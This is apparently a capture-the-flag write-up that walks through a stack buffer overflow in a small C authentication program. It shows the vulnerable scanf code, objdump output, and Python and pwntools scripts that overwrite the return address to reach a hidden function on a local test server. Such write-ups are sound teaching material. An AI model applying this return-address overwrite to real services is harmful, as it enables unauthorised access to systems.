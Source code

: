 # Access Terminal

## Description
```
I found this self written authentication service that protects my friend' server terminal.

He told me he wrote it in C and copied most of the code from ChatGPT but ensured me that it is absolutely bullet-proof, or is it?
```

## Writeup

This is a simple reversing challenge with the goal of overwriting a return address of a C program.
If we inspect the source code we can observe that the program itself does not call our interesting `access_terminal` function.

```c
int main()
{
  start();
  puts("Not so easy!");
  fflush(stdout);
  return 0;
}
```

But we can see that it utilizes an unsafe way of reading the user input using `scanf()`, so we have to find out how we can precisely
overflow this input in a way that it overwrites the `RIP` register and point it to `access_terminal`.

```c
void start()
{
  char input [16];
  printf("%p\n",start);
  fflush(stdout);
  puts("Tell me the access word:");
  fflush(stdout);
  scanf("%s",input);
  return;
}
```

By trying out some iterations of `A`'s, we find out that a `Segmentation Fault` occurs at 24 times `A`.

So the only thing left to do is to use a tool like `objdump` to find out the address of `access_terminal`.

```bash
objdump -d server
# output omitted ...
0000000000401166 <accessTerminal>:
  401166:       55                      push   %rbp
  401167:       48 89 e5                mov    %rsp,%rbp
# output omitted ...
```

We have to iterate the base address by one to correctly start at the functions first instruction which gives us `0x401167`.
By now we have our full payload string and can incorporate it into a simple python script that assembles everything for us.

```py
import sys

return_address = b"\x40\x11\x67"[::-1]
payload=b"A"*24 + return_address

sys.stdout.buffer.write(payload)
```

Notice that the hex string is reversed because we run this on an AMD/Intel x86 System, which works with little_endian notation.

We can test this locally by piping it directly into the binary

```bash
python exploit.py | ./server
# ...
The Flag is: TH{test_flag}
# ...
```

To do this remotely we f.E. use it in conjunction with `pwntools`

```py
from pwn import *

return_address = b"\x40\x11\x67"[::-1]
payload = b"A"*24 + return_address

# Define the host and port to connect to
host = "127.0.0.1"
port = 1337

# s = remote(host, port, ssl=True) # need this if socket is ssl based
s = remote(host, port)

s.send(payload)
print(s.recvline_containsS("Flag"))
```

Note the `ssl=True` addition if our socket is SSL based.

```bash
python exploit.py
# ...
[+] Opening connection
The Flag is: TH{test_flag}
[*] Closed connection
# ...
```

This should get us access and print the flag.
